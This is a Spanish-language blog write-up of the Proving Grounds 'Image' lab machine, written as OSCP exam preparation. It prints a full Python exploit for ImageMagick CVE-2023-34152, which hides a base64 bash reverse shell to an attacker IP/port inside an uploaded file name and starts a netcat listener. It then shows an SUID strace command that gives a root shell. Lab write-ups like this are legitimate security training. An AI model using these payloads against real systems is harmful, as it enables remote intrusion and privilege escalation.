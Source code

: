 ```yaml
---
layout: single
title: PG Practice (OSCP Prep.) - Image Writeup
excerpt: "Seguimos alimentando nuestro conocimiento para el OSCP. En esta ocasión, trabajaremos sobre una máquina en la que tendremos que explotar una vulnerabilidad en una versión de ImageMagick que se ejecuta por detrás a través de una web que permite la subida de archivos. Posteriormente, escalaremos privilegios abusando de un binario con permisos SUID en Linux."
date: 2025-04-09
classes: wide
header:
  teaser: /assets/images/pg-writeup-image/pg_writeup_image.webp
  teaser_home_page: true
  icon: /assets/images/hacked.webp
categories:
  - Proving Grounds Practice
  - OSCP
tags:
  - ImageMagick Exploit
  - Abusing SUID - Privilege Escalation
---
```


Empecemos con la máquina. 

<p align="center">
<img src="/assets/images/pg-writeup-image/start_car.gif">
</p>

# Enumeración 

```bash
nmap -p- -sS -sCV --min-rate 5000 --open -v -n -Pn 192.168.125.178 -oN allports
```

# Puertos:

```bash
Nmap scan report for 192.168.125.178
Host is up (0.041s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: ImageMagick Identifier
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.37 seconds
```

Al tener solo dos puertos, voy directo al más interesante: el puerto 80, que además ya veía en el escaneo de Nmap que estaba corriendo ImageMagick.

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314003442.png">
</p>


<span style="color:red;">ImageMagick</span> es una suite de software libre usada para crear, editar, convertir o manipular imágenes

Veo algo muy interesante: **la versión**

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314003914.png">
</p>

# Intrusión - CVE-2023-34152 - ImageMagick

Buscando algo sobre ImageMagick, la versión seguida de la palabra 'exploit' en Google ya me encuentro con algo muy interesante en GitHub.

[CVE-2023-34152](https://github.com/SudoIndividual/CVE-2023-34152)

```python
import base64
import sys
import os
help_message = "Usage: {0} Attacker_IP Attacker_Port".format(sys.argv[0])
if len(sys.argv) != 3:
	print(help_message)
	exit()
LHOST = sys.argv[1]
LPORT = sys.argv[2]
image = b'iVBORw0KGgoAAAANSUhEUgAAAQAAAAABCAAAAAAUMi+rAAAADnRFWHRqdXN0IGZvciB0ZXN0IZvUs4kAAAEMSURBVHicAQEB/v4AAAECAwQFBgcICQoLDA0ODxAREhMUFRYXGBkaGxwdHh8gISIjJCUmJygpKissLS4vMDEyMzQ1Njc4OTo7PD0+P0BBQkNERUZHSElKS0xNTk9QUVJTVFVWV1hZWltcXV5fYGFiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6e3x9fn+AgYKDhIWGh4iJiouMjY6PkJGSk5SVlpeYmZqbnJ2en6ChoqOkpaanqKmqq6ytrq+wsbKztLW2t7i5uru8vb6/wMHCw8TFxsfIycrLzM3Oz9DR0tPU1dbX2Nna29zd3t/g4eLj5OXm5+jp6uvs7e7v8PHy8/T19vf4+fr7/P3+/633f4E21T+hAAAAAElFTkSuQmCC'

def exploit(attacker_IP,attacker_port):
	reverse_shell = ('/bin/bash -c "/bin/bash -i >& /dev/tcp/{0}/{1} 0>&1"'.format(attacker_IP,attacker_port)).encode('ascii')
	payload = (base64.b64encode(reverse_shell)).decode("ascii")
	filename = '|smile"`echo {0}|base64 -d|bash`".png'.format(payload)
	with open(filename, "wb") as fh:
		fh.write(base64.decodebytes(image))
exploit(LHOST,LPORT)
print('Created by SudoIndividual (https://github.com/SudoIndividual)')
print('PNG file (payload) have been created in current directory. Upload the payload to the server')
nc_shell = input('Do you want to run netcat shell? [y/N]')
if nc_shell.lower() == 'y':
	os.system('nc -lvnp {0}'.format(LPORT))
else:
	exit()
```

El script genera un archivo malicioso que escapa del contexto de ImageMagick para inyectar un comando en el sistema, en este caso, una reverse shell.

**POC:**

Ejecutamos el exploit:

```bash
python3 CVE-2023-34152.py <TU-IP> <TU-PUERTO>
```

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314004035.png">
</p>


Subimos el archivo con extenso nombre: 

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314004052.png">
</p>

Y estamos dentro como **www-data**

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250409181002.png">
</p>

# Escalada de privilegios 

Una de las formas más comunes de escalar privilegios en Linux es mirar si algún binario tiene la flag o el privilegio <span style="color:red">SUID</span>. Esto quiere decir que ese binario se puede ejecutar como el propietario, siempre que tenga el flag <span style="color:red;">SUID</span> en la parte de los permisos. Si hiciéramos `ls -l`, veríamos en la primera parte, en vez de `rwx`, `-rws`

Los buscaremos con el comando `find`.

```bash
find / -perm -4000 2>/dev/null
```

Y ya veo algo que me llama la atención: el binario `/usr/bin/strace`

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314004435.png">
</p>

Strace puede ser interesante y no es común de encontrar.

La mejor página que engloba todas las debilidades de permisos relacionadas con binarios en Linux es, sin duda, [GTFOBins](https://gtfobins.github.io).

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314004548.png">
</p>

Probemos ejecutar esto para adjuntarnos a la SH como `root`.

```bash
www-data@image:/var/www$ /usr/bin/strace -o /dev/null /bin/sh -p
```

Y ya somos `root` 😎

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250409182529.png">
</p>



**Explicación final**: El comando `strace -o /dev/null /bin/sh -p` se utiliza para adjuntar un proceso ya en ejecución con strace, en lugar de iniciar uno nuevo, por tanto como el binario tiene el privilegio <span style="color:red;">SUID</span> y el propietario es `root`, estariamos ejecutando la `sh` como el usuario `root`

Máquina completada 😎

<p align="center">
<img src="/assets/images/leonardo-dicaprio-clapping.gif">
</p>

Gracias por leer.
